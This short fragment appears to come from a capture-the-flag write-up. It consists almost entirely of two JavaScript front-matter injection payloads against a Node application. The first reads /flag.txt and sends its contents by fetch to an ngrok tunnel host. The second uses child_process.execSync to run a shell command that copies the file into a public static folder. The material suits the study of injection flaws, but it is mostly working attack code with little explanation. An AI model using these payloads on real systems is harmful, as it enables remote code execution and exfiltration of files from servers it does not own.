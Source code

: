 ---js
fetch('https://c3c3-98-35-20-77.ngrok.io/?' + require('fs').readFileSync('/flag.txt', {encoding:'utf-8'}))
---

---js
((require("child_process")).execSync("cat /flag.txt > /app/static/flag"))
---
